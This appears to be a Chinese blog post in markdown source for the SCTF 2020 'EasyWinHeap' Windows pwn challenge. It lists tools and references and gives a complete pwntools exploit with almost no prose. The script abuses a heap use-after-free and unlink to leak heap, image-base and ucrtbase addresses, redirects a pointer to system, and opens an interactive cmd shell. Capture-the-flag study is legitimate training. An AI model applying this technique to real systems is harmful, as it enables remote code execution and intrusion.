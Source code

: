 ```yaml
---
title: SCTF 2020 EasyWinHeap 入门 Windows Pwn
date: 2020-07-09 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中

## 工具

- [https://cmder.net/](https://cmder.net/)
- [socat for windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/)
- [socat 1.7.3.2 for Windows](https://www.cybercircuits.co.nz/web/blog/socat-1-7-3-2-for-windows)
- [socat在Windows下的使用](https://juejin.im/post/5d8dd1b16fb9a04e1135dec5)
- [winpwn: pwntools for Windows (mini)](https://github.com/byzero512/winpwn)

## exp

```python
from pwn import *
#context.log_level = 'debug'
p = remote("10.10.10.133", 8888)
    	
def add(size):
	p.sendlineafter("option >\r\n", '1')
	p.sendlineafter("size >\r\n", str(size))
def show(idx):
	p.sendlineafter("option >\r\n", '3')
	p.sendlineafter("index >\r\n", str(idx))
def free(idx):
	p.sendlineafter("option >\r\n", '2')
	p.sendlineafter("index >\r\n", str(idx))
def edit(idx, content):
	p.sendlineafter("option >\r\n", '4')
	p.sendlineafter("index >\r\n", str(idx))
	p.sendlineafter("content  >\r\n", content)
def exp():
	for i in range(6):
		add(32)
	free(2)
	free(4)
	show(2)
	heap_addr = u32(p.recvuntil("\n", drop=True)[:4])
	log.info("heap_addr ==> " + hex(heap_addr))
	edit(2, p32(heap_addr-0xd8)+p32(heap_addr-0xd4))
	free(1)
	show(2)
	p.recv(4)
	image_base = u32(p.recv(4))-0x1043
	log.info("image_base ==> " + hex(image_base))
	puts_iat = image_base + 0x20c4
	log.info("puts_iat  ==> " + hex(puts_iat))
	edit(2, p32(puts_iat)+p32(image_base+0x1040)+p32(heap_addr-0xe8))
	show(2)
	ucrtbase = u32(p.recv(4))-0xb89f0
	log.info("ucrtbase  ==> " + hex(ucrtbase))
	system = ucrtbase+0xefda0
	edit(0, 'cmd\x00')
	edit(3, p32(system)+p32(heap_addr-0x60))
	show(0)
	p.interactive()
if __name__ == '__main__':
	exp()
```

## 参考

- [SCTF 2020 PWN](https://sh1ner.github.io/2020/07/07/SCTF-2020-PWN/)
- [Windows-pwn解题原理&利用手法详解](https://www.anquanke.com/post/id/188170#h3-8)
- [Windows Pwn 入门](https://ble55ing.github.io/2019/08/18/WindowsPwn1/)
- [Windows下32位进程内存模型](http://www.xumenger.com/01-windows-process-memory-20170101/)
- [SUCTF 2019 PWN](https://kirin-say.top/2019/08/19/SUCTF-2019-PWN/)
- [CTF中Windows下Pwn题的部署？](https://www.zhihu.com/question/286944913)
- [Windows pwn 的一些感悟](http://blog.eonew.cn/archives/1245)
- [xman 2017 Day 7:Windows pwn](https://www.xctf.org.cn/library/details/9d1cd32600eb05d13abe05bea120fc4c8b286019/)